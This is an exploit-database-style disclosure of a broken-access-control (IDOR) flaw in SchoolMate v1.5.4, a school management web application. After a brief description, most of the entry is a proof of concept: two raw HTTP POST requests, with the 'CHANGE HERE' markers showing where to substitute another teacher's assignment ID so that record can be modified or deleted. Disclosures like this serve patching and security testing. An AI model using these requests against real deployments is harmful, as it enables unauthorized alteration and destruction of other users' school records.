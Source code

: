 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 4/1/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker teacher to update and delete assignment that is assigned by other teacher in other class(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...

title=1&task=2023-10-07&total=1&assigneddate=%2F%2Fassign1&duedate=00%2F%2F20&editassignment=1&assignmentid=1(CHANGE HERE)&page2=2&selectclass=1&logout=&wastotal=1&wasdate=20.00&page=2
```

```
POST /index.php HTTP/1.1
...
delete%5B%5D=2(CHANGE HERE)&deleteassignment=1&selectassignment=1&page2=2&onpage=1&logout=&selectclass=2&page=2
```